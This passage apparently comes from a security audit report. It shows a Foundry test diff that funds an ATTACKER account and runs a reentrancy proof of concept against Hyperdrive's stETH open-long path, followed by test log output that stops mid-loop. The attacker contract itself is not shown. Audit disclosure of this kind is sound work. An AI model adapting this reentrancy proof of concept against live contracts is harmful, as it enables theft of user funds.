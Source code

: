 ```diff
+        address[] memory accounts = new address[](4);
         accounts[0] = alice;
         accounts[1] = bob;
         accounts[2] = celine;
+        accounts[3] = ATTACKER;
         fundAccounts(address(hyperdrive), IERC20(LIDO), STETH_WHALE, accounts);
+        deal(ATTACKER, 10_000_000 ether);
+    }
+
+    function test_reentrancy_open_long_with_ETH() external {
+        console.log(
+            "Initial Lido balance from Attacker: %s",
+            LIDO.balanceOf(ATTACKER)
+        );
+        console.log(
+            "Initial Ether balance from Attacker: %s",
+            ATTACKER.balance
+        );
+        uint256 snapshotId = vm.snapshot();
+
+        AttackerContract(ATTACKER).normalLoop();
+        vm.revertTo(snapshotId);
+
+        AttackerContract(ATTACKER).attack();
     }
```

Which will output the following logs on `forge test --mt test_reentrancy_open_long_with_ETH -vv`:

```
Running 1 test for test/integrations/StethHyperdrive.t.sol:StethHyperdriveTest
[PASS] test_reentrancy_open_long_with_ETH() (gas: 2319279)
Logs:
  _pricePerShare() 2: 1126467900855209627
  return (shares = 8877305773567131948929, sharePrice = 1126467900855209627)
  
# Deployed Attacker contract with instance: 0xe987e53ebe3F69D0292d0c410e5912077a5e27B8 #

  Initial Lido balance from Attacker: 239835683389301336443497
  Initial Ether balance from Attacker: 10000000000000000000000000
  
# Opening Several Long Positions #

  _pricePerShare() 1: 1126467900855209627
  _pricePerShare() 2: 1126467900855209627
  return (shares = 887730577356713194, sharePrice = 1126467900855209627)
  Loop index: 0
  _pricePerShare() 3: 1126467900855209627
  shares() 3: 887730577356713195
  return (shares = 887730577356713195, sharePrice = 1126467900855209627)
  _pricePerShare() 1: 1126467900855209627
  _pricePerShare() 2: 1126467900855209627
  return (shares = 887730577356713194, sharePrice = 1126467900855209627)
  Loop index: 1
  _pricePerShare() 3: 1126467900855209627
  shares() 3: 887730577356713195
  return (shares = 887730577356713195, sharePrice = 1126467900855209627)
  _pricePerShare() 1: 1126467900855209627
  _pricePerShare() 2: 1126467900855209627
  return (shares = 887730577356713194, sharePrice = 1126467900855209627)
  Loop index: 2
  _pricePerShare() 3: 1126467900855209627
  shares() 3: 887730577356713195
  return (shares = 887730577356713195, sharePrice = 1126467900855209627)
```